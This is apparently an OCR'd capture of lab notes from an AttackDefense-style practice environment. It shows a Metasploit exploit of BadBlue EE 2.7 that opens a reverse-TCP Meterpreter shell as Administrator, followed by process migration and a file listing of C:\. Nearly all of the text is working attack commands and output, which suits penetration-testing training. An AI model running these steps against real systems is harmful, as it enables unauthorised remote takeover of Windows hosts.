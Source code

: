 ```
Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.19.113
RHOSTS => 10.0.19.113
msf6 exploit(windows/http/badblue_passthru) > show advanced
msf6 exploit(windows/http/badblue_passthru) > show info
```

```
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.0.19.113
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.19.113:49749) at 2023-07-21 15:16:49 +0530

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > pgrep explorer
4092
meterpreter > migrate 4092
[*] Migrating from 4856 to 4092...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

```
meterpreter > cd C:\\
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
40777/rwxrwxrwx   0          dir   2018-09-15 12:49:00 +0530  $Recycle.Bin
100666/rw-rw-rw-  1          fil   2018-11-14 12:26:16 +0530  BOOTNXT
40777/rwxrwxrwx   8192       dir   2018-11-14 12:26:15 +0530  Boot
40777/rwxrwxrwx   0          dir   2018-11-14 21:40:15 +0530  Documents and Settings
40777/rwxrwxrwx   0          dir   2018-11-14 12:26:17 +0530  EFI
```